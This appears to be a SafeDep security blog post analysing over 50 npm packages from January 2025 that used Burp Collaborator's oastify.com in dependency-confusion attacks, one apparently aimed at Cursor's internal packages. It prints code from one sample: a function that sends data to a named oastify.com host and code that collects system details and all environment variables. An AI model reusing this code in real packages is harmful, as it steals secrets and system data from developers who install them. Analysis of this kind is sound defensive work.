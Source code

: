 ```yaml
---
publishDate: 2025-01-16T00:00:00Z
title: 'Malicious npm Packages using Burp Collaborator for Dependency Confusion Attack'
image: /images/burp-collaborator-dependency-confusion.png
excerpt: Multiple npm packages impersonating popular package names were published to the npm registry including by a Snyk researcher apparently targeting internal packages at Cursor AI.
tags:
  - npm
  - malware
---
```


Recently a Hacker News discussion on [Snyk security researcher deploys
malicious NPM packages targeting
cursor.com](https://news.ycombinator.com/item?id=42690473) highlighted
interesting insights related to using Burp Collaborator's `oastify.com` as
[Command and Control](#) (C2) server for exfiltrating data. In this particular
case, the researcher published multiple npm packages to the public npm registry
apparently targeting internal packages at Cursor in a [dependency confusion](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610) attack.

## SafeDep Analysis

Our [Malicious Package Scanner](https://docs.safedep.io/cloud/malware-analysis) deployed to monitor `npm` registry for malicious packages
identified similar patterns in multiple packages published during the month of January 2025. In fact a simple query
identified 50+ such packages.

![](/images/malysis-npm-oastify.jpeg)

### Looking at a Sample

We took a closer look at one of the samples `pkg:/npm/patternfly-v5/patternfly@1.0.2`. 
The sample contained the following files:

```
-rw-r--r--  1 dev  wheel  1365 Oct 26  1985 index.js
-rw-r--r--  1 dev  wheel   283 Oct 26  1985 package.json
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly-addons.css
-rw-r--r--  1 dev  wheel     0 Oct 26  1985 patternfly.min.css
```

The `package.json` had a `postinstall` script to execute the payload:

```json
{
  "name": "@patternfly-v5/patternfly",
  "version": "1.0.2",
  "description": "A package for testing supply chain attacks.",
  "main": "index.js",
  "scripts": {
    "postinstall": "echo 'Patternfly malicious package executed!'"
  },
  "author": "Your Name",
  "license": "MIT"
}
```

The payload was in `index.js` and contained exfiltration logic such as

```javascript
function sendData(path, data) {
  const options = {
    hostname: 'rzucd2dfiuz08dnqwkigu37xfolf95xu.oastify.com',
    port: 443,
    path: `/${path}`,
    method: 'GET',
    headers: {
      'Content-Type': 'application/json'
    }
  };

  const req = https.request(options, (res) => {
    console.log(`Status: ${res.statusCode}`);
  });

  req.on('error', (error) => {
    console.error(`Error: ${error.message}`);
  });

  req.write(JSON.stringify(data));
  req.end();
}
```

Followed by system information gathering code

```javascript
const systemInfo = {
  hostname: os.hostname(),
  platform: os.platform(),
  arch: os.arch(),
  release: os.release(),
  userInfo: os.userInfo(),
  networkInterfaces: os.networkInterfaces(),
  env: process.env
};
```

### Example Packages using `oastify.com` for Exfiltration

| Package                                     | Report                                                                                                   |
| ------------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| `chrome-api-utils@1.1.0`                    | [🔗 01JGPYQTZJGM0Y5BYZWZ0757P3](https://platform.safedep.io/community/malysis/01JGPYQTZJGM0Y5BYZWZ0757P3) |
| `grafana-sentry-datasource@1.0.4`           | [🔗 01JH3FWEBCCXBGGRTN286Z5ARP](https://platform.safedep.io/community/malysis/01JH3FWEBCCXBGGRTN286Z5ARP) |
| `@patternfly-v5/patternfly@1.0.2`           | [🔗 01JH0BKSY7Y2DNG7QB137S6J6F](https://platform.safedep.io/community/malysis/01JH0BKSY7Y2DNG7QB137S6J6F) |
| `electron-builder-13@13.4.5`                | [🔗 01JH01T0FQQ14NX3DKNJXG0SPC](https://platform.safedep.io/community/malysis/01JH01T0FQQ14NX3DKNJXG0SPC) |
| `graphql.vscode-graphql-syntax@99.99.99`    | [🔗 01JF2FS909Y3SHC099S6ETY7X1](https://platform.safedep.io/community/malysis/01JF2FS909Y3SHC099S6ETY7X1) |
| `mattermost-cloudnative-bootstrapper@1.0.0` | [🔗 01JF1PE7YACMTYBQGG59VVHDZ1](https://platform.safedep.io/community/malysis/01JF1PE7YACMTYBQGG59VVHDZ1) |

## Conclusion

All packages appeared to be similar in nature i.e. leveraged Burp Suite's [Collaborator](https://portswigger.net/burp/documentation/collaborator)
service as a public endpoint for capturing exfiltrated data. We did not observe any sophistication or attempt
to conceal malicious behavior. This potentially indicate red team activity or unsophisticated threat actor groups.